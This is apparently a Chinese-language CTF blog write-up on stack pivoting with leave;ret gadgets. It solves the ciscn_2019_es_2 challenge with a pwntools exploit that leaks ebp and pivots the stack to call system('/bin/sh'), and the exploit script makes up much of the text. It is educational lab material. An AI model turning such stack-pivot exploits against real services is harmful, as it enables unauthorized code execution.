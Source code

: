 ```yaml
---
title: ciscn_2019_es_2 栈迁移
description: ciscn_2019_es_2 栈迁移-writeup
date: 2021-08-04 15:07:56
categories:
 - PWN
tags:
---
```




# ciscn_2019_es_2 栈迁移

## 栈迁移相关知识

栈迁移是通过leave_ret这样的gadget去实现的

leave相当于mov esp,ebp; pop ebp;

ret相当于pop eip;

具体实现看图，假设有个栈溢出的漏洞，将栈填充成如下图，此时的bss段或data段还没用内容，等等我们调用read函数读入内容

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628084946033-5aa5c57a-099b-4efa-b4aa-5be6a2af9c48.png)

当函数call调用一般都有leave和retn的操作

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085026460-50484e42-b166-4f09-8d2c-7f9a675614b0.png)

首先调用mov esp, ebp;  pop ebp; 记得pop ebp之后esp要向下减一个单位

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085121318-8ce5a92f-fcfe-440f-9b9f-04a4bf119448.png)

然后调用retn也就是pop eip，也就是调用read函数，往fake_ebp1中写入内容，主要是要往fake_ebp1中写入fake_ebp2，还有你需要调用的函数地址啥的

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085530682-616b0ab1-3bf8-4d2a-ba3b-33afb14df499.png)

然后继续调用一遍leave，也就是mov esp, ebp; pop ebp; 

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085655833-e99e9b9c-227e-457f-807e-50dfc8d571c1.png)

然后执行retn，也就是pop eip，这样就会调用我们写好的函数了，下面我们通过一道例题来深化理解一下。

## ciscn_2019_es_2

程序里有个vul()函数，第一个read读入0x30个字节数据，正好溢出0x8个字节，那么就只能覆盖原ebp和retn地址

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085764891-5bded1cb-51d6-4b1e-9129-8754fc9f50c8.png)

还有个hack()函数，这里调用了system函数，但是不能直接获取flag，但是给我们提供了system函数的地址，之后我们就可以通过栈迁移的手段，调用system('/bin/sh');

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628085852276-707559f9-d51a-4954-8c6e-9ac7cf2dc877.png)

首先这里有两个read函数，没办法像上面提到的将栈迁移到我们的设想的地方，read函数的参数还是s，那么就迁移到s中，这里第一个read可以先泄露出ebp的地址，然后解出变量s的地址

```python
payload = 'a' * 0x20 + 'bbbbbbbb'//填满s，防止后面printf遇到/x00截断
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
log.info(hex(ebp_addr))
pause()
```

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628086200438-97447a79-cb20-4577-b2c8-2b4583092fb5.png)

原ebp地址距离s的偏移就为0x38，也就是s的地址泄露的ebp地址-0x38，知道了s的地址就可以开始栈迁移了

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628086747640-55c10240-3c0e-4f2f-ab0d-f4a4c1368bb4.png)

```python
from pwn import *

p = process('ciscn_2019_es_2')
# p = remote('node4.buuoj.cn','27049')

system_addr = 0x08048400
leave_ret = 0x08048562

payload = 'a' * 0x20 + 'bbbbbbbb'
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
log.info(hex(ebp_addr))
payload = 'aaaa' + p32(system_addr) + p32(0xdeadbeef) + p32(ebp_addr - 0x28) + '/bin/sh'
payload = payload.ljust(0x28,'\x00')
payload += p32(ebp_addr - 0x38) + p32(leave_ret)

p.send(payload)
p.interactive()
```